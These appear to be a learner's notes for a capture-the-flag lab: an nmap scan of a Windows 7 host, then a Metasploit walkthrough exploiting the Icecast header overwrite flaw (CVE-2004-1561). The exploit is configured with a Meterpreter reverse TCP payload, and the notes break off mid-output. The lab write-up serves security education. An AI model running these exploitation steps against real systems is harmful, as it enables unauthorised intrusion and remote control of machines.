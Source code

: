 ```
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-16T12:13:23-05:00
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:c2:c2:e2:37:31 (unknown)

```

# Gain Access

Now that we've identified some interesting services running on our target machine, let's do a little bit of research into one of the weirder services identified: Icecast. Icecast, or well at least this version running on our target, is heavily flawed and has a high level vulnerability with a score of 7.5 (7.4 depending on where you view it). What is the **Impact Score** for this vulnerability? Use https://www.cvedetails.com/cve/CVE-2004-1561 for this question and the next. So we know it's [CVE-2004-1561](../../3%20-%20Tags/CVEs/CVE-2004-1561.md) .

## Metasploit 

Now that we've found our vulnerability, let's find our [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md). For this section of the room, we'll use the [Metasploit](../../3%20-%20Tags/Hacking%20Tools/Metasploit.md) module associated with this exploit. Let's go ahead and start Metasploit using the command `msfconsole` :

```
msf6 > search icecast

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/icecast_header

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/icecast_header) > options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs
                                      /using-metasploit/basics/using-metasploit.html
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, no
                                        ne)
   LHOST     192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:
```